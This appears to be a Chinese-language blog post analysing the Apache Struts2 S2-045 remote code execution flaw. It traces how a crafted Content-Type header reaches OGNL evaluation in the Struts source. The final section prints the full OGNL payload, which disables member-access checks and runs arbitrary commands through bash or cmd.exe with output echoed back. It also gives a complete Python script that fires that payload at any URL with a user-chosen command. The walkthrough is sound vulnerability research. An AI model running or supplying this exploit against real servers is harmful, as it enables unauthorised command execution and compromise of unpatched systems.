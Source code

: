 ﻿## Struts2 045 漏洞分析
### 目录
- 基础知识
- Struts2 045 源码分析
- exp

由于对JAVA和Struts都不熟悉，所以在分析过程当中很多转换都不理解，只能理清代码运行过程。
### 1.基础知识
#### 1. 什么是Struts？

一套用于创建企业级Java Web 应用的开源MVC框架。

#### 2. 什么是Struts2 045漏洞？

Struts2 045漏洞是由于异常处理函数对Content-Type的内容进行ognl表达式解析，导致可以在服务器上执行任意命令。

#### 3. Struts2的处理流程

![image](https://images.seebug.org/content/images/2017/03/st2_arch.png-w331s)

从上面的流程图可以看到，

1.客户端产生一个HttpServletRequest的请求

2.请求经过一系列的过滤器（ActionContextCleanUp、SiteMesh），过滤器对所有的请求都起到作用，主要用来对请求添加，修改或者分派转发至Action处理业务逻辑。

3.FilterDispatcher（有一些是StrutsPrepareAndExecuteFilter）被调用，并询问ActionMapper来决定这个请求是否需要调用某个Action来处理这个请求。

4.然后再经过拦截器，拦截器能对配置文件中匹配的 request 进行处理，并能获取 request 当中的上下文环境及数据。

5.最后将结果返回。
#### 4. 什么是OGNL？
OGNL是Object-Graph Navigation Language的缩写，它是一种功能强大的表达式语言（Expression Language，简称为EL），通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。

在Struts2中，使用Ognl表达式作为字符串与对象之间转换的一种实现，通过Ognl表达式可以轻松做到String与Object之间的沟通。

### 2.Struts2 045 源码分析
从前面的分析可以知道，

查看web.xml文件配置可以看到拦截请求的过滤器是StrutsPrepareAndExecuteFilter：
![image](./pic/webxml.png)


接下来这个类会执行doFilter()方法，并且执行prepare.wrapRequest调用，因此跳转到PrepareOperations类，可以看到再次调用dispatcher.wrapRequest方法：
![image](./pic/PrepareOperations.png)

在这个方法中，可以看到这里先获取ContenType，判断是否包含multipart/form-data，这也就是后面我们要在ognl表达式中包含multipart/form-data的原因。然后会去new一个MultiPartRequestWrapper对象，
![image](./pic/dispatcher.png)

然后在MultiPartRequestWrapper的构造函数中，会调用multi.parse方法，在这里multi=multiPartRequest，会调用JakartaMultiPartRequest类中的parse方法。
![image](./pic/MultiPartRequestWrapper.png)

在parse方法中调用了processUpload方法，据别人的解析所说，这个方法会判断content-type是否是multipart开头，不是的话引发异常，并将content-type信息放入异常中。不过这个方法我跟踪不到。然后异常会调用buildErrorMessage函数。
![image](./pic/JakartaMultiPartRequest.png)

接着这个函数会调用LocalizedTextUtil.findText函数：
![image](./pic/buildErrorMessage.png)

然后搜索defaultMessage，也就是前面传进来的错误信息，可以找到最开始调用是在
getDefaultMessage函数里面：
![image](./pic/getdefaultmessage.png)

继续跟进getDefaultMessage函数,可以发现又被TextParseUtil.translateVariables函数调用：
![image](./pic/default.png)

注意这里的$和%，两者都能告诉执行环境 ${} 或 %{} 中的内容为ognl表达式。
![image](./pic/char.png)

经过很多次TextParseUtil.translateVariables函数之后,错误信息传入TextParser.evaluate函数
![image](./pic/parse.png)

最后在OgnlTextParser类中执行ognl表达式：

![image](./pic/ognl.png)

然后再把结果一步一步返回回去，存进一个数组里，等待geterrors函数调用。
### 3. exp

exp里主要看OGNL表达式，由于对OGNL不熟悉，所以我讲一下我的理解：
```
(#Nike='multipart/form-data')
```
这个是为了满足前面对multipart/form-data包含的判断，又会触发不是以multipart/form-data开头的异常。
```
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm))))
```
通过ognl表达式静态调用获取ognl.OgnlContext的DEFAULT_MEMBER_ACCESS属性(默认是非PUBLIC的属性和方法不可访问)，并将获取的结果覆盖_memberAccess属性，这样就可以绕过SecurityMemberAccess的限制.
```
(#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds))
```
这一段是判断操作系统，如果是linux，调用bash；如果是windows，调用cmd。
```
(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
```
这一段是执行传递进来的命令，然后通过流来将命令回显内容输出。


写exp的时候发现一个问题，原先是使用requests库来发送请求，但是引发异常：

('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))

查找stackoverflow给出这么一个解决办法，就是用urllib2库，同时增加异常处理，然而还是不知道e.partical是什么。
```
import urllib2
import httplib
from optparse import OptionParser

def struts(url,cmd):

    content_type="${(#Nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).\
    (#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).\
    (#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"%cmd

    
    request = urllib2.Request(url)
    
    request.add_header('User-Agent',"Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0")
    request.add_header('content-type',content_type)
    
    try:
        page = urllib2.urlopen(request).read().decode('gbk')
    except httplib.IncompleteRead, e:
        page = e.partial

    print page

def main():

    parser=OptionParser()
    parser.add_option("-u",action="store",dest="url",help="url")
    parser.add_option("--cmd",action="store",dest="cmd",help="cmd")
    (options,args)=parser.parse_args()

    struts(options.url,options.cmd)

if __name__=="__main__":
    main()
```
